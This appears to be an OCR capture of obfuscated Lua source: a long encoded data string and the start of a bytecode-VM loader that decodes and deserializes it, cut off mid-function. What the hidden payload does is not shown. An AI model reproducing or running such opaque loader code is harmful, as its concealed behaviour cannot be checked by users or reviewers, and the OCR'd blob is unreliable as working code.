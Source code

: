 xexFxo*o?zmm:**sPlPf:evFx?:om*lbxl?(:P,???P?P?,**xmxo**s,FsF?PPF*vbzxmv:elzeoPr?xoooeo,zom,:vl*exF??:oxvlo?zxmb:ml:e:F,vPo:o:o?,xm:*xgz3xFbvooE,boF,smebPbx:?)bezFbv*mlb?s:lFLsPF?Pvbzv,:x?*:smlm3zP:?,oPz:v?zb,z*PbFs>lFe*P,?fvm,ebssKAPebFovPv,?ooezvm:xlbFelllv?o:,,x?mmml*be*:mNoe*F,msoF,P:**:sx:vvFemFlvb**xxxxxcPFlveoe:,*oFzxm?xv-s:?lP7*Pb?xovbF,mx,eesPlo.xPzmFoxz*m,x*sFs-W,eeFmmoms*xs?::d,PPFb?PP}z:x?*:s,s>x?PoFEvxos,:x,bPsbsmE6Pm??v:z,mPxbbobolxe?P:?ooPz*moxN*s:?l:e,Fe?boozrzxxbb::,MPebFo?lox,?mP*,bJ:b2oeaFov?F:zvxP*xso:sdxPPF:P,P:,bx?*XsPl?OvP,eP?mzo,:xx*ls:lPePlbssvZz,m?xxb,s,lbeoPP?xo?z:mo*Pb*:ol1eoF??:o,,emb*obS:x3?e:F,vPom,omA*xsF:xE,PPFbv,vovovb*ssvlP5bPo?PPbv:,smlbPsbloeP)IRjeov6vvos,Pms:,e?P:?,?_o,moxkbx:Pl:e,FPPbvTznmx*?b::,llebP?Fbox,Fm:*osP:bMol4P,v?os,,xe*bsv:tC?E}F:v,zPzsxo*lsxlF!:P?sevbzo,}m*b?ssl,ePem?ov<zxm?x:b,:P:xlzPM?mo?zbm,*Pbbbo:FexFF?:oz,Pmm*obC:m%?e:F,?Oob,vm{*xbz::;,PPF*vooy,xx?*bs,lP.bPvFyvmz?,:xPbPsblo_:Px??v:z,zsxbbos_lme?Ps?,v:I*mox#bxsFl:ezFP?bvFzpmx*?b*:, PebFoexox,?m:*zsP:*koe3Fov?o:,,xe*bso:T xP?F:v,zP,mxo*qsxlFllP,?Pvbz,zozozbx0so:P:zePPszxmzo*,emll*;lP#?xo?zjvwogmzx:bv:oFF?vo,,Pmb*,,l*os?:*hFexFevPm?*xs?::loPeFbvoo9,,x?*:s,s lzPoFlvxzF,:x,bPsb:?5_Px??vbz,,kxb*Mbxlxe?P:FloPz*mox6bxs{,se,FP?bvsz!mm*?*b:zjPebFo?sox,?m:xo*s:bdveDFmv?o:,,xP,eso:T4xPFF:v,zP,b?o*8sxl?L:P,?Pvbzoo:xxb?s:l,ePPb?ovL?,m?x:b,sGlbeoP-?xv&z:m,*Pb*:ol&exF??:o,,Pmbxsby:xW?e*F,vPob,omc*x*Tx:^zesFbvoo!,b,e,omb*:<*_:F!vxz?,Oozmemvbob::,dDe*FBvlxFb,:PlzeePz?ov5zmmPx,bPssls;bFP?boo,P,,zo,sxzb::xlFoe?9?0vo*zbs:bSoe+FbFzF:?bo:**b/:aixP?F;FNFovbo),bsm:FK:P,?Pv:vxv5o},Tbe*xbll?eeP,?,o?o*,Qx?*levP,?xo?z:mxmN,:xm*s:olzh*ozvOmb*obU:bsbs#l?oFFvvov*,o:v*xb*slG,evFbvz*vz*xe*:esl?NPemFFvxzozl:ssbsb:Pv?vvz,mPxbbobvlxe?P:?,oPzbmo,jbF:?l:e,FP?bvlzImxmxb::o;PebFo?boxv?mP*,bq:bwee Fov?F:zPxP*xso:,+xe*F:P,v,,bx?*0s?l? *P,eP?xzo,:xxbPs:lzePPbF,v^zxm?xbb,:elbeoPb?xo?z:mz*Pbb:ol exF??:o,z9mb*obQ:mlxe:F,vPo:FLvl,Pme*xsF:x;ePPolz*x?*:s,l?lPlPl,PbvPv:oF,:xmloeF:zlse*zFmPxbbob:,Pe?Ps?,oezbmox7*,s*l:eoFP?xooz;mx*?*e:,llebFo?Yox,?m:*?sP:*.oesFxvFo:,,mb*bso:RXmP?F:v,zP,bxo*SsmlPu:P,?Pv*zF,Cxxb?s4bxlbP*Fsvhzxm?xcx:x:*?l:lF&*e3F*mv*Pbb:o::emF??so,,emb*ob6sx*se:FzvPox,omy*xs?:xq,PPFbvvoQ,xx?*:s,lPEbPvFmvxz?,:xvbPsbloM7Px??o:Fm,lxbbos%lxe?P:?,PPz*mvxVbx:?lrezFP?boozpmz*?b::,tPebFosNPx,Fmm*,sP:bmP*ls,:,)m,zmb*bso:+mzx5bb:l!?Pvze*4sxl?-:ev?Pv*zo,_xxb?s:l,:sPb??vrzxm?x:b,:P:xeoPl?xoPz:mo*Pxox:lLemF??Po,,embx1b<:omFe:F,vPvq,oml*xs?s*4,PeFbvvoV,xx?*:*FlPjxPoFgvxz?,:xP?zsblF5-Px??vsz,,Zxbbos*lxe?P:?,oPzbmox;be:?l:e,P<?booz{mxxob::zJPemFo?loxz)Ps*,sP:bsFe_Fmv?o:zvxP**so:;%xP?F:v,?s,bx?*_sxl?g:P,?P?xzo,lxxbPs:loePgo:hvMzmm?mbb,:elbilP<?olFz:m,*P*x:ollexP!sso,,Pmb,FbT:mD?e:FevPo*,omf*xs?::lx:*Fbvvouz?x?*ss,leIbPPblvxz?,:mPbPs*lo5b*m??v:z,vlxbbvs_lxGeP:?zoPzmmoxtbx:?see,Pt?boozpmx*?*bslaPemFo?lox,?m:xobv:b3Pe(Fmv?o:,,xP*eso:lUxeDF:vozPooxe*hsml?:AP,?evbzF,uxovFs:l,eP!:?ovlzx,<Fsb,:Plb:FPu?mo?ob,F*Pb*:olbexF??:voosmb*?bi:,0?e:F,vPov,oms*xs?::6,PPPx?eo5,ox?*ss,lP_bPP-evxzP,:zobPs*loy_iv??v,z,mexbbos{lxlzP:?eoPz,mox8bx:?:me,Px?boPz#mx*?b::P(PeFFo?sox,?m:*,*::blbeMFxv?o:,,xP*Pso:v^xelF:v,zP,bm:*Cb:l?9mP,?Pvbzo,Pxx**s::bePPx?ov}elm?xob,sxlb6sPd?x:*z:,l*Pbz:olcexF?F?o,zxmbx:bX:eI?l:FovPo?,om,*xbl::A,evFb?lo_,Fx?*os,lP:lPoFlvxo:,:xebPs,*e2/P,??F*z,mexbbox:lxeFP:?ooPzbmoxNm,:?l:e,P ?booz6mxx1b::,tPe*Fo?&ox,Fm:*,sP:buoeaFx?:o:,,xP*bo,:g9,P?F:v,zP,bxox:sxleW:Pz?Pvbzo,ym*b?sxl,eePb?ov zx,*x:bv:PlxeoP:?xo?z*m,xcbb:olTezF??:vl,Pmb*obl:x<?e:F,vPob,om:*mb*::d,PPF*veoi,xx?*8*v*xb0lPFlFzz?,:x,b?*?*,bbF*^sP:FFv:*smPxF*zs(:se?Pl,soozFs*xbbe:ol?Z*Pv?bo,zeslb:b:s??o?lov,?m:*,s?blso:?UovFoo,,xP*bs,s:bb:zl*P?Fv?mxv*Psxl?f:PxPxel??vPom,FxxboblFsPbPbFPmFmsb,:Plbe,e?exPx?xz*z?,mx:b*:PCPe:Pv?xv:zmbl:?S?e:F,v?v??xo),?mG:s:LPPFbvozP?mzFzzx,xUbxlPlsPP?e,vxxb?smlFdmP,?Pv*z?,xx?*lsslxe?P:?,oPzb,Po(be:?l:e,FPFeooz3mx*?b::,OPlbe*?_ox,?m:*,bb:bqoeFFxvPo:,,xP*,so*}#FP?Fbv,ol,bxe*8xx:?S:Po?Pv,zo,:xxm?b,l,nTPbFlvLzPm?z:*b:PlxeoPl?xv*z:m,x?bb:olMe,F??so,,Pm,*obB:x7Fe:F,vPob,om;*xs?:x{,PPFbvvo*,xx?*:sx*bsb:xBbvmob,:x,bPs:slbs:zqv?,???lx*zmsnlxe?PAeeelFmvzo:be:ol1sz4P-oom?xoPzemzx?ses,l?ebPmvPvcz*,l*,bmssFsPPPS?bx?zBxoxss,:sLxe:Fx?lol,tsb*vs*l,n*e,z,?lzo,lmblxs*l,eoPsF,mozPm,xx*le,leezF??zv?*v,^*Fll%lF??:o,,?oez,mC*zbPs*lzexPl?5m,*xs?::lobvFbvooc,ox?*:s,s>l?PoFlvxzF,:x,bP*bs*_MPm??vsz,,&xb*?sllxeeP:?voPzbmoxRb,:?lse,Pl?boozgmxxeb::,0PebFo?:ox,?,:*,sP:bWvenF,v?o:,?xP*bso:lnxP?F:v,zP,bxo*7sx");local n=0;r.OVWGwriC(function()r.luyLAthf()n=n+1 end)local function e(l,e)if e then return n end;n=l+n;end local l,n,h=s(0,s,e,m,r.YXPpPPmk);local function b()local n,l=r.YXPpPPmk(m,e(1,3),e(5,6)+2);e(2);return(l*256)+n;end;local z=true;local z=0 local function p()local e=n();local n=n();local d=1;local o=(l(n,1,20)*(2^32))+e;local e=l(n,21,31);local n=((-1)^l(n,32));if(e==0)then if(o==z)then return n*0;else e=1;d=0;end;elseif(e==2047)then return(o==0)and(n*(1/0))or(n*(0/0));end;return r.tXnVgVEY(n,e-1023)*(d+(o/(2^52)));end;local k=n;local function u(n)local l;if(not n)then n=k();if(n==0)then return'';end;end;l=r.OeSPcjbH(m,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+z),#l do e=e..r.OeSPcjbH(l,n,n)end return e;end;local k=#r.PvjrqODM(a('\49.\48'))~=1 local e=n;local function oe(...)return{...},r.IMnBJYas('#',...)end local function ne()local a={};local e={};local m={};local z={m,a,nil,e};local e=n()local f={}for o=1,e do local l=h();local e;if(l==0)then e=(h()~=#{});elseif(l==3)then local n=p();if k and r.ndEWWeWc(r.PvjrqODM(n),'.(\48+)$')then n=r.dUEdpXrO(n);end e=n;elseif(l==1)then e=u();end;f[o]=e;end;for r=1,n()do local e=h();if(l(e,1,1)==0)then local s=l(e,2,3);local h=l(e,4,6);local e={b(),b(),nil,nil};if(s==0)then e[d]=b();e[t]=b();elseif(s==#{1})then e[d]=n();elseif(s==c[2])then e[d]=n()-(2^16)elseif(s==c[3])then e[d]=n()-(2^16)e[t]=b();end;if(l(h,1,1)==1)then e[o]=f[e[o]]end if(l(h,2,2)==1)then e[d]=f[e[d]]end if(l(h,3,3)==1)then e[t]=f[e[t]]end m[r]=e;end end;for e=1,n()do a[e-(#{1})]=ne();end;z[3]=h();return